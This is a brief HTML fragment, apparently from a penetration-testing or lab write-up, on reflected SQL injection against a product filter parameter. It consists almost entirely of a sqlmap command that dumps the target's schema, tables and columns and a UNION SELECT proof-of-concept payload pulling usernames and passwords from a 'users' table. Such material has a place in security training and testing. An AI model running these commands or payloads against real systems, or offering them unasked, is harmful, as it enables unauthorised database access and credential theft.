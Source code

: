 <h1>SQL Injection</h1>

<p>Reflected SQL Injection:</p>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h3>POC</h3>
<code>'+UNION+SELECT+username,+password+FROM+users--</code>
